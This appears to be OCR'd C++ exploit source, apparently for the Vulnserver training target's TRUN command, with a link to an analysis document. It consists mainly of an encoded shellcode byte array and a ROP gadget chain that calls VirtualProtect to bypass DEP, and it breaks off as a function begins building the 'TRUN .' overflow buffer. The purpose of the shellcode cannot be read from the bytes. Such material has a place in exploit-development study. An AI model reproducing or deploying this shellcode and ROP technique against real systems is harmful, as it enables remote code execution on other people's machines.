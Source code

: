 



[分析文档.docx(3.2 MB)](./分析文档.docx)

```c++

unsigned char g_szShellCode[] = {
    0x83, 0xEC, 0x10, 0x90, 0xDB, 0xD9, 0xBA, 0xD6, 0xFE, 0x13, 0xA6, 0xD9, 0x74, 0x24, 0xF4, 0x5E, 0x31, 0xC9, 0xB1, 0x45,
    0x83, 0xC6, 0x04, 0x31, 0x56, 0x13, 0x03, 0x80, 0xED, 0xF1, 0x53, 0xF5, 0xF9, 0x6D, 0x42, 0x71,
    0xDA, 0x65, 0x44, 0xAB, 0x90, 0xF1, 0x96, 0x82, 0xB1, 0x76, 0xA9, 0x24, 0xB1, 0xFF, 0x46, 0xCF,
    0xB3, 0xE3, 0xDD, 0x89, 0x33, 0x97, 0x9C, 0x35, 0xCF, 0x91, 0x58, 0x7A, 0xD7, 0xA8, 0x6B, 0xDD,
    0xE6, 0x83, 0x73, 0x3C, 0x88, 0xA8, 0xE0, 0x9A, 0x6D, 0x24, 0xBD, 0xDE, 0xE6, 0x6E, 0x16, 0x66,
    0xF8, 0x64, 0xED, 0xDC, 0xE2, 0xF3, 0xA8, 0xC0, 0x13, 0xEF, 0xAE, 0x34, 0x5D, 0x64, 0x04, 0xBF,
    0x5C, 0x94, 0x54, 0x40, 0x6F, 0xA8, 0x6B, 0x12, 0x14, 0xE8, 0xE0, 0x6D, 0xD4, 0x26, 0x05, 0x70,
    0x11, 0x53, 0xE2, 0x49, 0xE1, 0x80, 0x23, 0xD8, 0xF8, 0x42, 0x69, 0x06, 0xFA, 0xBF, 0xE8, 0xCD,
    0xF0, 0x74, 0x7E, 0x8B, 0x14, 0x8A, 0x6B, 0xA0, 0x21, 0x07, 0x6A, 0x5E, 0xA0, 0x53, 0x49, 0x82,
    0xD2, 0x98, 0x23, 0xB2, 0x3D, 0xCB, 0xCD, 0x27, 0xB4, 0x31, 0xA5, 0x29, 0x89, 0xBB, 0xDA, 0x67,
    0xFE, 0x5B, 0xDD, 0x78, 0x01, 0xEA, 0x67, 0x82, 0x45, 0x93, 0xBF, 0x68, 0xCA, 0xEB, 0x5C, 0x48,
    0x7F, 0x1C, 0xD2, 0x6F, 0x80, 0x23, 0x62, 0xCA, 0x77, 0xB4, 0x19, 0xB8, 0xA7, 0x05, 0x8A, 0x73,
    0x9A, 0xAB, 0x2E, 0x1B, 0xAF, 0xC0, 0xCB, 0xA9, 0x7F, 0xFC, 0x9C, 0x11, 0xA4, 0x08, 0x14, 0x4F,
    0xF2, 0xF3, 0x73, 0x8B, 0x72, 0xC9, 0x2C, 0x28, 0x2C, 0x6C, 0x81, 0xF2, 0xAA, 0x6D, 0x3E, 0x58,
    0x5D, 0xD2, 0xC1, 0xA3, 0x62, 0x85, 0x52, 0x23, 0xC5, 0x76, 0xC5, 0xB2, 0x92, 0x13, 0x57, 0x5C,
    0x10, 0xB9, 0x24, 0xEF, 0x9B, 0x9A, 0x43, 0x53, 0xF8, 0x16, 0xDD, 0x88, 0x68, 0x7F, 0xFD, 0x6E,
    0x49, 0x17, 0xB0, 0x3D, 0xCF, 0xC6, 0x22, 0xB3, 0xA0, 0x65, 0x93, 0x5B, 0x50, 0x5A, 0xF3, 0xFD,
    0xC6, 0xEA, 0x96, 0x6D, 0x7B, 0xDA, 0x91, 0xE5, 0xCF, 0x38, 0x32, 0x7C, 0x2E, 0x71, 0xE0, 0x2C,
    0xE2, 0x23, 0x56, 0x2F, 0xD4, 0xF5, 0x96, 0x9F, 0x2A, 0xA0, 0x1E
};

unsigned int rop_gadgets[] = {
    //[---INFO:gadgets_to_set_esi:---]
    0x76a16ff2,  // POP EAX // RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    0x6250609c,  // ptr to &VirtualProtect() [IAT essfunc.dll]
    0x77033c5e,  // MOV EAX,DWORD PTR DS:[EAX] // RETN [ntdll.dll] ** REBASED ** ASLR 
    0x75b11470,  // XCHG EAX,ESI // RETN [WS2_32.DLL] ** REBASED ** ASLR 
    //[---INFO:gadgets_to_set_ebp:---]
    0x75ad847d,  // POP EBP // RETN [WS2_32.DLL] ** REBASED ** ASLR 
    0x625011af,  // & jmp esp [essfunc.dll]
    //[---INFO:gadgets_to_set_ebx:---]
    0x760d887f,  // POP EAX // RETN [msvcrt.dll] ** REBASED ** ASLR 
    0xfffffdff,  // Value to negate, will become 0x00000201
    0x76d394ea,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
    0x7703cc7e,  // XCHG EAX,EBX // RETN [ntdll.dll] ** REBASED ** ASLR 
    //[---INFO:gadgets_to_set_edx:---]
    0x769c118d,  // POP EAX // RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    0xffffffc0,  // Value to negate, will become 0x00000040
    0x76d3a918,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
    0x75adc549,  // XCHG EAX,EDX // RETN [WS2_32.DLL] ** REBASED ** ASLR 
    //[---INFO:gadgets_to_set_ecx:---]
    0x760874df,  // POP ECX // RETN [msvcrt.dll] ** REBASED ** ASLR 
    0x62504bbe,  // &Writable location [essfunc.dll]
    //[---INFO:gadgets_to_set_edi:---]
    0x77069fec,  // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR 
    0x76d3a91a,  // RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
    //[---INFO:gadgets_to_set_eax:---]
    0x769c1161,  // POP EAX // RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    0x90909090,  // nop
    //[---INFO:pushad:---]
    0x7703ea16,  // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR 
};

void SendShellCode(SOCKET sk) {

    char szBuf[4096] = { "TRUN ." };
```